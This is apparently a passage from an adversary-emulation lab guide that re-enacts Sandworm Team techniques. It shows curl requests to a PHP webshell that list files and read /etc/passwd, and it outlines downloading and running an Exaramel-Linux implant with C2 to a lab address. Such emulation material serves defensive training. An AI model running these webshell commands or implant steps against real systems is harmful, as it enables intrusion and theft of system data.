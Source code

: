 ```bash
# Sandworm Team has enumerated files on a compromised host.

# P.A.S. Webshell has the ability to list files and file characteristics including extension, size, ownership, and permissions.

curl --insecure "https://192.168.30.233/search.php?cmd=ls+-lsahR+/"
```

Execute `cat /etc/passwd` from P.A.S. webshell.

```bash
# P.A.S. Webshell can display the /etc/passwd file on a compromised host.

curl --insecure "https://192.168.30.233/search.php?cmd=cat+/etc/passwd"
```

[Source Code](../../Resources/phpWebShell/webShell.php#L35)

### :microscope: Cited Intelligence

* https://www.justice.gov/opa/press-release/file/1328521/download 

* https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/

<br>

## Step 13 - Upload and Execute Exaramel (Linux Variant)

:microphone: `voice track`

Sandworm downloads an ELF executable from the control server using curl.

The ELF executable is an implant based on Exaramel-Linux.

Once downloaded to disk, Sandworm sets Exaramel-Linux's file permissions to read-write-execute.

Finally, Sandworm executes Exaramel-Linux.

Exaramel-Linux establishes HTTPS C2 with the control server.

```
C2 Info

Connects to: 10.10.0.120:8443

Protocol: HTTPS

File write: /var/www/html/centreon_module_linux_app64
```

### :biohazard: Procedures

:warning: Open a new terminal tab (ctrl+shift+t) and start the control server.

Double click the terminal tab to change its name. Name your terminal tab "control server" for easy identification.

